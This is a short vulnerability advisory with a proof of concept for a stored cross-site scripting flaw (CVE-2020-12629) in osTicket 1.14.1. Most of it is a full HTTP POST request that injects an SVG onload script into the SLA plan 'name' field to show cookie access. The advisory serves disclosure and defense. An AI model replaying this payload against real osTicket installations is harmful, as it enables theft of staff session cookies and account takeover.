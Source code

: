 Title: osTicket 1.14.1 - Persistent Authenticated Cross-Site Scripting <br>
Author: Mehmet Kelepce / Gais Cyber Security <br>
Date : 2020-03-24 <br>
Source Link: https://github.com/osticket/osticket/commit/fc4c8608fa122f38673b9dddcb8fef4a15a9c884 <br>
CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12629 <br>
Exploit-Db : https://www.exploit-db.com/exploits/48413  <br>
Vendor: http://osticket.com <br>
Remotely Exploitable: Yes <br>
Dynamic Coding Language: PHP <br>
CVSSv3 Base Score: 7.4 (AV:N, AC:L, PR:L, UI:N, S:C, C:L, I:L, A:L) <br>
<br>
this vulnerability was found by examining the source code.<br>
<br>
PoC : Ticket SLA Plan Name - HTTP POST REQUEST<br>
-----<br>
POST /upload/scp/slas.php?id=1 HTTP/1.1<br>
Host: localhost<br>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br>
Accept-Language: en-US,en;q=0.5<br>
Accept-Encoding: gzip, deflate<br>
Referer: http://localhost/upload/scp/slas.php?id=1<br>
Content-Type: application/x-www-form-urlencoded<br>
Content-Length: 196<br>
Connection: close<br>
Cookie: cookie=3333; OSTSESSID=684d6hn7dfk869kupbhc9hq2qv<br>
Upgrade-Insecure-Requests: 1<br>
<br>
submit=Save+Changes&__CSRFToken__=6174a3343a6277b2e5faae240188d54624a756d7&do=update&a=&id=1&name=%3Csvg+onload%3Dconfirm%28document.cookie%29%3B%3E&isactive=1&grace_period=48&schedule_id=0&notes=<br>
<br>
Vulnerable parameter: name<br>
Parameter file: /scp/slass.php<br>
<br>
I used the name of the SLA for any ticket.<br>
<br>
Risk : cookie information of the target user is obtained.<br>

